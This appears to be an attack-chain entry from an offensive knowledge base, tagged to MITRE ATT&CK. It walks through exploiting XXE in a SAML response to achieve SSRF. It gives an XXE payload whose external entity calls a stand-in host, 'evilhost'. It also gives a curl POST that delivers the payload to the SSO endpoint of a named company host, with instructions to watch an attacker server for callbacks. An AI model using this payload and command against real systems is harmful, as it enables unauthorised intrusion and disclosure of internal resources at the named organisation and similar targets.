

---
tags:
  - xxe
  - ssrf
  - saml
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-post-saml-xxe]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Craft-Malicious-XXE-Payload-in-SAMLResponse]]'
  - '[[procedures/Send-Malicious-SAMLResponse-to-SSO-Endpoint]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploitation of XXE vulnerability in SAML authentication endpoint to achieve
  SSRF
skill_level: intermediate
impact_level: high
id: bba77fce-9b9e-443b-8ef9-caaf63f6e56a
created_at: '2025-12-13T09:01:26.352Z'
updated_at: '2025-12-13T09:01:26.352Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Exploitation via SAMLResponse Leading to SSRF

Multi-stage attack chain demonstrating exploitation of an XML External Entity (XXE) vulnerability in a SAML authentication endpoint, leading to server-side request forgery (SSRF) for potential disclosure of internal resources.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web application with SAML authentication
- Exposed /sso endpoint
- Network access to the target server

### Initial Access Requirements

- Ability to send HTTP POST requests to the target
- Attacker-controlled server for SSRF callback

## Detailed Attack Procedures

### Step 1: Craft Malicious XXE Payload
procedure: [[procedures/Craft-Malicious-XXE-Payload-in-SAMLResponse]]

**Objective**: Create a malicious SAMLResponse XML payload that includes an XXE entity to trigger external resource fetching.

**Instructions**: Construct the XML payload with an external entity declaration. Use the following structure:

```xml
<!DOCTYPE foo [ <!ENTITY % asd SYSTEM "http://evilhost"> %asd;]>
<!-- SAML response structure here -->
```

Base64 encode the XML payload for transmission.

**Expected Output**: Base64-encoded malicious XML string ready for inclusion in the request.

**Success Indicators**:
- Valid XML structure with XXE entity
- Successful base64 encoding

### Step 2: Send Malicious Request
procedure: [[procedures/Send-Malicious-SAMLResponse-to-SSO-Endpoint]]

**Objective**: Transmit the crafted SAMLResponse to the vulnerable endpoint to exploit the XXE vulnerability and induce SSRF.

**Instructions**: Use [[commands/curl-post-saml-xxe]] to send the POST request:

```bash
curl -X POST 'https://rev-app.informatica.com/sso' \
  -H 'Host: rev-app.informatica.com' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'SAMLResponse=<base64-encoded-XML>&RelayState='
```

Monitor the attacker-controlled server for incoming requests from the target.

**Expected Output**: Server fetches the external entity, confirming SSRF via logs on the attacker's server.

**Success Indicators**:
- HTTP request received on attacker's server
- Potential disclosure of internal resources

## Attack Chain Summary

### Key Achievements

1. Successful crafting of XXE payload in SAMLResponse
2. Exploitation leading to SSRF
3. Potential access to internal network resources

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

*Last updated: [TIMESTAMP]*
